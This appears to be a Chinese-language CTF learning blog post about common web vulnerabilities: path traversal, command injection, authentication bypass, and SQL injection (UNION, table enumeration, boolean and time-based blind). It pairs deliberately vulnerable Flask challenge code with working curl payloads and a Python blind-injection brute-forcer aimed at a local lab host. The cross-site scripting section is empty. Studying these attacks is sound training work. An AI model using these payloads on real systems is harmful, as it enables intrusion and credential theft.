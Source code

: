 ```yaml
---
layout: post
tags: [web]
title: "常见web漏洞"
date: 2024-8-2
author: wsxk
comments: true
---
```


- [3. 常见web漏洞](#3-常见web漏洞)
  - [3.1 路径遍历漏洞](#31-路径遍历漏洞)
  - [3.2 命令注入](#32-命令注入)
  - [3.3 身份验证绕过](#33-身份验证绕过)
  - [3.4 SQL注入](#34-sql注入)
  - [3.5 跨站脚本](#35-跨站脚本)


## 3. 常见web漏洞<br>
### 3.1 路径遍历漏洞<br>
路径遍历漏洞指的是**允许攻击者在未经授权的情况下读取服务器上任意文件的安全漏洞**<br>
例子:<br>
```
# 路径遍历漏洞的参数通常是../../../flag 
curl http://challenge.localhost:80/?path=../flag
```

### 3.2 命令注入<br>
命令注入指的是**攻击者可以控制变量作为命令被执行而导致的安全漏洞**<br>
比如有如下代码:<br>
```python
def level2():
    timezone = request.args.get("timezone", "UTC")
    return subprocess.check_output(f"TZ={timezone} date", shell=True, encoding="latin") # 存在命令注入，timezone为用户可控，可以通过插入UTC cat /flag; 来使整个字符串变为
    # TZ=UTC cat /flag; date
```
可以通过如下命令获得flag<br>
```
 curl http://challenge.localhost:80/?timezone=UTC%20cat%20/flag%3b
```

### 3.3 身份验证绕过<br>
有的人在写代码对身份的校验出现了问题，导致身份验证可以被绕过，攻击者不需要输入密码即可获得用户权限<br>
```python
def level3():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))
    
    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
        assert user, "Invalid `username` or `password`"

        return redirect(request.path, user=int(user["rowid"]))
    # 逻辑出现错误，即使不发送post请求验证身份，也可以执行登陆后的执行逻辑。
    if "user" in request.args:
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```
只需要发送请求`curl http://challenge.localhost:80/?user=1`即可绕过<br>

### 3.4 SQL注入<br>
`sql注入`发生在攻击者的输入可以影响到sql语句的查询的场景下，<br>

```python
def level4():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone() # 存在sql注入
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```
利用方法:<br>
`curl -X POST -d "username=flag%22%20or%20%221%22=%221&password=wsxk" -i -c cookies.txt http://challenge.localhost:80`<br>
发送上述请求后的sql实际展开为`SELECT rowid, * FROM users WHERE username = "flag" or "1"="1" AND password = "wsxk"`<br>
随后发送`curl -b cookies.txt http://challenge.localhost:80`即可获取flag<br>
**SQL注入的攻击模式不止上述一种**<br>
```python
# 在不打印我们想要的列时，可以通过UNION查询打印我们需要的列的值
def level5():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM users WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
# curl http://challenge.localhost:80/?query=%25%22%20union%20select%20password%20from%20users%20where%20%221%22=%221
# 实际上的式子等于 SELECT username FROM users WHERE username LIKE "%" union select password from users where "1"="1"
```
还有<br>
```python
# 在表名未知，且不打印所需列的值时，可以通过两步：利用union从sqlite_master中取出tbl_name得知表名，再利用union获取所需列
def level6():
    table_name = f"table{hash(flag) & 0xFFFFFFFFFFFFFFFF}"
    db.execute((f"CREATE TABLE IF NOT EXISTS {table_name} AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM {table_name} WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)

# curl http://challenge.localhost:80/?query=%25%22%20union%20select%20tbl_name%20from%20sqlite_master%20where%20%221%22=%221

# curl http://challenge.localhost:80/?query=%25%22%20union%20select%20password%20from%20table18222469061300079216%20where%20%221%22=%221
```

最后一种`sql注入`就是盲注了<br>
盲注分为两种**布尔盲注和时间盲注**<br>
**布尔盲注是在能够得知系统的响应（是否存在特定的文本）来推测数据内容**<br>
**时间盲注发生在无法得知系统响应时（没有回显），可以通过`username=flag&password=admin' OR IF(substr(password,1,1)='a', SLEEP(5), 0) --`来得知结果**<br>

```python
def level7():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone() #利用盲注输出爆破flag
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```
上述题目，由于我们可以拿到回显，所以使用布尔盲注即可解题<br>
```python
import requests

url = 'http://challenge.localhost:80'

charset=""
for i in range(0,256):
    charset += chr(i)

def find_password():
    print("start")
    password = ''
    for position in range(1, 60):  # 假设密码最大长度为60
        for char in charset:
            # 发送POST请求尝试猜测每个字符
            payload = {
                'username': 'flag',
                'password': f'admin" OR substr(password,{position},1)="{char}" -- '
            }
            response = requests.post(url, data=payload)

            if "Hello, flag!" in response.text:
                print(f"Found character {char} at position {position}")
                password += char
                break
    return password

print("Password is:", find_password())
```

### 3.5 跨站脚本<br>
